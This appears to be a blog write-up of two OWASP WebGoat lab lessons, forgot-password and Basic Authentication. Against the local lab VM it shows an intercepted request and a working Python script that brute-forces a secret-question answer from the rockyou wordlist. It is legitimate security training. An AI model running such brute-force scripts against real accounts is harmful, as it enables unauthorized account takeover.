 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 4"
date:   2017-01-24 19:00:00 -0500
categories: webgoat
---
```

# Authentication Flaws: Forgot Password
Instructions:

* Users can retrieve their password if they can answer the secret question properly. There is no lock-out mechanism on this 'Forgot Password' page. Your username is 'webgoat' and your favorite color is 'red'. The goal is to retrieve the password of another user. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/landing-page.jpg">

So we have two hints that are going to help us solve this challenge. The first is on the login page, and says "See the OWASP admin if you do not have an account". The second hint for this challenge is in the phrase "no lock-out mechanism". Sounds like we're going to need to brute-force the admin's favorite color!

So first we navigate to the admin's Forgot Password page, and intercept a test request

```
POST /WebGoat/attack?Screen=64&menu=500 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=64&menu=500
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

Color=blue&SUBMIT=Submit
```

Now that we have a template request for our brute-forcer, it's time to break out everyone's favorite scripting language (or at least mine), Python, and write ourselves a handy-dandy brute-force script.

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"long_long_path_to_dir/rockyou.txt",
]


def main():
	wordlist = []
	print "[+] Populating the wordlist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			wordlist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(wordlist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="C1702A9FE913D04E2F177203213F9149",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,word in enumerate(wordlist):
		print ("[*] Attempt {} | Pass: {}".format(index, word))
		payload= {"Color":word,"SUBMIT":"Submit"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=64&menu=500", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "congratulations" in r.text.lower():
				print ("[+] SUCCESS! Password is: {}".format(word))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()

{% endhighlight %}

So instead of opting for a truly naive brute-force approach, I decided to go with a wordlist. Specifically the "rockyou.txt" list. It has an enormous list of some of the most common passwords in it, which include colors. The way this script works is by parsing each guess from the .txt wordlist file and passing it to a properly formatted request to the Forgot Password request URL. The script maintains headers and cookies to (semi) convincingly spoof the browser. The script then checks the lowercase-cast response for the string "congratulations", which has been in every challenge so far as a flag for correct guess. 

Let's see if it works!

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/rocked-you.jpg">

rocked.txt

# Basic Authentication
This lesson is broken on v5.4 (or at least my implementation of it), but it covers the Basic Authentication protocol. Basic Authentication is a simple method for enforcing access controls on server resources. The basic logical flow is as follows:

1. User requests a resource from the server
* I would like this page
2. Server responds with HTTP 401 Unauthorized
* I don't know who you are, or if you can have that
3. User sends request with Authorization header
* Authorization: Basic ```base64(user:passwd)```
4. Server sends response according to authorization status

It is important to remember that in HTTP everything is transmitted in cleartext, so this does not prevent anyone from stealing login credentials. HTTPS should be used in production systems.